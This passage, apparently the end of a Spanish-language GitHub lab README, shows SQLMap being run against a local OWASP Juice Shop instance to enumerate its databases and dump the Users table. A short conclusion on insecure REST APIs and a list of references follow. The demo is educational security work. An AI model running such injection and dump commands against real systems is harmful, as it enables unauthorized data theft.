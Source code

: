 ```bash
# Clonar SQLMap
git clone https://github.com/sqlmapproject/sqlmap.git

# Levantar Juice Shop
docker run --rm -p 3000:3000 bkimminich/juice-shop

# Ejecutar SQLMap con archivo Burp
python sqlmap.py -r request.txt --batch --dbs

# Ejecutar SQLMap con URL directa
python sqlmap.py -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs

# Extraer tabla Users
python sqlmap.py -u "http://localhost:3000/rest/products/search?q=apple" -D juice_shop -T Users --dump
```

---

## Conclusión

Esta demo demuestra cómo una API REST mal protegida puede ser explotada mediante técnicas de inyección SQL si no valida correctamente las entradas del usuario.

Gracias al uso de **Burp Suite** para interceptar peticiones y a **SQLMap** para automatizar la explotación, se evidencia cómo atacantes pueden obtener acceso a información crítica de forma sencilla.

Este análisis evidencia la necesidad de implementar controles de seguridad adecuados en el desarrollo de APIs REST modernas.

---

## 📚 Referencias

- [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)
- [SQLMap](https://github.com/sqlmapproject/sqlmap)
- [OWASP API Security Top 10](https://owasp.org/www-project-api-security/)
- [Burp Suite Community Edition](https://portswigger.net/burp)
- [Docker Desktop](https://www.docker.com/products/docker-desktop)
